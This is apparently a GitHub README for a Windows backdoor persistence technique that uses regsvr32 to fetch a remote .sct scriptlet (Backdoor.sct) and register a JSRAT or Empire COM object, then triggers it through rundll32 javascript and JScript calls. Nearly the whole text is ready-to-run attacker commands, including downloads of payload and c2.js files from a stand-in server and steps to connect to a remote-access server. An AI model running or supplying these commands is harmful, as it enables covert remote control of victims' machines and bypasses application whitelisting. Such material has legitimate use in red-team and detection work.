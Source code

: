 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-rewrite the regkey


-the Class definition comes form the interwebs http://server/c2.js


2.c2.js


-javascript payload


-.sct format


3.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();`


or


-js


`var x = new ActiveXObject("Component.Backdoor");
x.Main();
var x = new ActiveXObject("Component.Backdoor");
x.Exec();`


My Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-Connect to the JSRAT server


2.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`


-js


`var ref = new ActiveXObject("JSRAT");
ref.Exec();`




---
###Usage:

1.(local)


`regsvr32.exe /u /n /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /u /n /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT

 













